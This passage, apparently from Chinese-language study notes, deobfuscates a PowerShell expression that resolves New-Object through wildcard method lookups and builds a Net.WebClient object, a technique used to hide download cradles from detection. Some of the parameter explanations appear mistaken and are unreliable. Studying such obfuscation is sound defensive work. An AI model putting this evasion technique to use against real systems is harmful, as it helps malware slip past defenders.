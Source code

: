         - `.Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }).Name).Invoke('*w-*ct', $TRUE, 1))`: 调用 `New-Object` 
          
          - `.Invoke`: 方法调用, 这里即为调用前面获取的 `GetCmdlet` 方法, `GetCmdlet` 方法的作用是获取命令的信息
          
          - `$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }).Name).Invoke('*w-*ct', $TRUE, 1)`: `New-Object`
          
            ![image-20231203220848022](http://cdn.ayusummer233.top/DailyNotes/202312032208065.png)
          
            - `$ExecutionContext.InvokeCommand`
          
              - `$ExecutionContext` 是一个自动变量，提供了关于当前 PowerShell 运行环境的信息和功能
              - `InvokeCommand` 是一个属性，它提供了对当前运行的命令的访问
            - `($ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }).Name`: `GetCommandName` 方法的名称, 也即 `Get-CommandName`
          
              ![image-20231203220125418](http://cdn.ayusummer233.top/DailyNotes/202312032201443.png)
          
            - `().Name`: 获取名称
          
            - `$ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }`: 获取名称中包含 `om*e` 的成员, 也即 `Get-CommandName` 方法
          
              ![image-20231203220148077](http://cdn.ayusummer233.top/DailyNotes/202312032201101.png)
          
              - `$ExecutionContext.InvokeCommand | GM`: 获取当前运行的命令的信息
                - `GM` 是 `Get-Member` 的别名, 用于获取对象的成员
              - `? { $_.Name -like '*om*e' }`: 获取名称中包含 `om*e` 的成员
                - `?` 是 `Where-Object` 的别名, 用于筛选对象
          
            - `Get-CommandName` 方法的作用是获取命令的名称, 也即 `Get-Command`
              - `Get-Command` 是一个 cmdlet，用于获取命令的信息，如命令的名称、模块、参数等
          
            - `.Invoke('*w-*ct', $TRUE, 1)`: 调用 `New-Object` 
              - `.Invoke`: 方法调用, 这里即为调用前面获取的 `GetCommandName` 方法, `GetCommandName` 方法的作用是获取命令的名称
              - `'*w-*ct'`: 通过通配符匹配命令的名称, 也即 `New-Object`
              - `$TRUE`: `New-Object` 的参数, 用于指定是否使用 PowerShell 的安全模式创建对象
              - `1`: `New-Object` 的参数, 用于指定创建对象的深度
          
        
      
    - `.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))`: 获取 `New-Object` 的方法
      
      - `.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods | ? { $_.Name -like '*Cm*t' }).Name)`
        - `.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods | ? { $_.Name -like '*Cm*t' }).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }).Name).Invoke('*w-*ct', $TRUE, 1))`
          - `.Name`: 获取名称
          - `.$ExecutionContext.InvokeCommand`: 获取 `InvokeCommand` 的方法
      - `.Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand | GM | ? { $_.Name -like '*om*e' }).Name).Invoke('*w-*ct', $TRUE, 1))`
      
    - `(Get-ChildItem Variable:0W).Value`: 获取变量 `0W` 的值, 即 `Net.WebClient`
